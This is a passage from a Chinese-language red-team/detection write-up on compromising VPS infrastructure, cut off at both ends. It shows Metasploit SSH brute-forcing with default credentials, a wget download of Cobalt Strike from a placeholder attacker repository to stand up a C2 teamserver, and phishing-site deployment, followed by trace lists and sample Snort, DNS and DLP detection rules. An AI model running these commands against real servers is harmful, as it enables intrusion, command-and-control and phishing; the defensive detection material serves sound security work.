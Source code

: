      msfconsole
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS <VPS_IP>
     set USERNAME admin
     set PASSWORD default_password
     exploit
     ```
4. **恶意活动部署**：
   - 在受损VPS上部署C2服务器：
     ```bash
     wget https://<attacker_repo>/cobaltstrike.jar
     java -jar cobaltstrike.jar
     ./teamserver <VPS_IP> <password> /path/to/profile
     ```
   - 部署钓鱼网站：
     ```bash
     sudo apt install nginx
     cp phishing.html /var/www/html/index.html
     sudo systemctl start nginx
     ```
5. **结果分析**：
   - 验证C2通道或钓鱼页面是否正常运行。
6. **日志收集**：
   - 收集VPS管理、网络流量、DNS和邮件日志，分析入侵痕迹。

## 测试留痕
VPS入侵可能留下以下痕迹：
- **VPS管理日志**：异常的登录尝试、新服务安装或配置变更。
- **网络流量**：与受损VPS的异常HTTP/HTTPS流量或C2通信。
- **DNS查询**：解析到受损VPS IP的异常域名。
- **邮件服务器日志**：针对VPS管理员的钓鱼邮件。
- **防火墙/IDS告警**：针对VPS的漏洞利用或异常流量。

## 检测规则/思路
由于VPS入侵多发生在目标组织视野之外，检测需结合多种手段：
- **网络流量监控**：
  - 检测与已知VPS提供商IP范围的异常通信。
  - 示例Snort规则：
    ```snort
    alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (msg:"Suspicious VPS Traffic"; content:"digitalocean.com"; sid:1000001;)
    ```
- **DNS监控**：
  - 检测解析到受损VPS IP的异常域名。
  - 示例DNS防火墙规则：
    ```plaintext
    Rule: Detect Suspicious VPS Domains
    Condition: DNS query resolves to <DigitalOcean_IP_RANGE>
    Action: Alert
    ```
- **邮件监控**：
  - 使用DLP工具检测针对VPS管理员的钓鱼邮件。
  - 示例DLP规则：
    ```plaintext
    Rule: Detect Phishing Links to VPS
    Condition: Email contains "http" AND "password reset"
    Action: Alert
    ```
- **VPS管理监控**：
  - 监控VPS控制面板的异常登录或配置变更。
  - 示例日志规则：
    ```plaintext